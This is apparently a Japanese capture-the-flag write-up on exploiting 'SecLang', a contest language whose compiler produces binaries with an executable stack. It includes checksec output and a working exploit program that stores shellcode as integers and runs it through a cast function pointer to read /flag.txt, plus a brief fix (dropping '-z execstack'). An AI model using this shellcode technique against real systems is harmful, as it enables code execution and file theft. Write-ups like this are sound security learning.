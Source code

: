 # SecLang
SecLangというプログラムミング言語のインタプリタとコンパイラとコンパイラのソースコードが配布されました。
SecLangのインタプリタは未定義動作に対して例外を発生させる処理が実装されていますが、配布された初期状態のコンパイラにはそういった例外処理が実装されていませんでした。
各チームのサーバ上でそのようなSecLangをコンパイルし実行できる環境が動いて、各チームのサーバの/flag.txtを読み取り提出することで得点が手に入る　という問題でした。

## 攻撃
SecLangにはキャスト機能があることや、関数ポインタ経由で関数を実行できる仕組みを利用しました。

また、コンパイラが生成するバイナリは以下のようにスタック領域が実行可能領域となっていました。
```
$ checksec ./program.elf
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x4000b0)
    RWX:      Has RWX segments
```

なのでshellcodeをスタック上に配列として保存し、配列のアドレスを関数ポインタとして指定し実行することで、/flag.txtを読むshellcodeを実行できました。
競技中1byte要素の配列を作る方法が分からなかったので、shellcodeを8byte要素の配列に保存しています。
```
func main() {
	shellcode = [5206455252099743723,1150160940181012529,10180404549529986565,15145967043662586932,1134961291673188966,128212131051030533,73394811851409736,1097757632678593807,7363385390746363909,32783537688502636];
	(shellcode as int + 16)();
}
```
## 防御
コンパイラのソースコードが配布されていることを忘れていました。
つまり防御を全くしていませんでした。()

今ルールを確認できないのでアレなんですが、コンパイラのソースコードをアップロードする形でコンパイラが生成するバイナリをセキュアにするようだったそうです。
実行可能ファイル生成時のリンカオプションを指定しているassembler/assmbleファイルも更新できるのであれば、`-z execstack`を削除するだけでshellcode実行は阻止できそうですね。。